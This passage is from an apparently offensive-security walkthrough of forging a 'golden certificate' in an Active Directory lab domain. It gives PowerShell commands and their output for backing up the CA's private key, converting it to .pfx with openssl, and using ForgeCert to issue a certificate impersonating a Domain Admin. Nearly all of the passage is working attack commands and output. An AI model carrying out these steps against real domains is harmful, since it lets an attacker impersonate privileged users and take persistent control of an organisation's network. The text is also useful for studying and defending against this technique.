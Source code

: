 ```powershell
Backup-CARoleService C:\Tools\CA-Backup -Password (ConvertTo-SecureString "Senha" -AsPlainText -Force)

dir .\CA-Backup\

Directory: C:\Tools\CA-Backup


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        11/01/2025     02:22                DataBase
-a----        11/01/2025     02:22           2597 CORP-CA.p12
```

Now, let's take this **.p12** file to the attacking machine. Remember that tools like **Certipy** can extract the CA certificate remotely, but they require domain administrator privileges.

```powershell
C:\Tools\openssl\openssl.exe pkcs12 -in C:\Tools\CORP-CA.p12 -out C:\Tools\CORP-CA.pem

dir | findstr "CORP-CA"

-a----         1/11/2025   2:22 AM           2597 CORP-CA.p12
-a----         1/11/2025   2:26 AM           3387 CORP-CA.pem

C:\Tools\openssl\openssl.exe pkcs12 -in C:\Tools\CORP-CA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out "C:\Tools\CORP-CA.pfx"

dir | findstr "CORP-CA"

-a----         1/11/2025   2:22 AM           2597 CORP-CA.p12
-a----         1/11/2025   2:26 AM           3387 CORP-CA.pem
-a----         1/11/2025   2:30 AM           2587 CORP-CA.pfx
```

Keep this **.pfx** with ALL YOUR SOUL!!!! Now, let's use **ForgeCert** to issue a certificate on behalf of the Domain Admin.

```powershell
 .\ForgeCert.exe --CaCertPath ".\CORP-CA.p12" --CaCertPassword "Senha" --Subject "CN=paulo.victor,OU=Usuarios,OU=Inferi,DC=CORP,DC=LOCAL" --SubjectAltName paulo.victor@corp.local --NewCertPath ".\paulo-da.pfx" --NewCertPassword "Senha"

CA Certificate Information:
  Subject:        CN=CORP-CA, DC=CORP, DC=LOCAL
  Issuer:         CN=CORP-CA, DC=CORP, DC=LOCAL
  Start Date:     1/4/2025 12:56:14 AM
  End Date:       1/4/2030 1:06:13 AM
  Thumbprint:     0C6145AAC4A1BDF07BA3F7D01461797BF511F12C
  Serial:         1125934CE5144B9A4DEFB96CAAA4A9F2

Forged Certificate Information:
  Subject:        DC=LOCAL, DC=CORP, OU=Inferi, OU=Usuarios, CN=paulo.victor
  SubjectAltName: paulo.victor@corp.local
  Issuer:         CN=CORP-CA, DC=CORP, DC=LOCAL
  Start Date:     1/11/2025 2:34:50 AM
  End Date:       1/11/2026 2:34:50 AM
  Thumbprint:     ED557F9E9F3811F07B62EF0517CE494D83E9AD4B
  Serial:         00E32CD49040A22DBBA2BA81A1A6C87F4E

Done. Saved forged certificate to .\paulo-da.pfx with the password 'Senha'
```
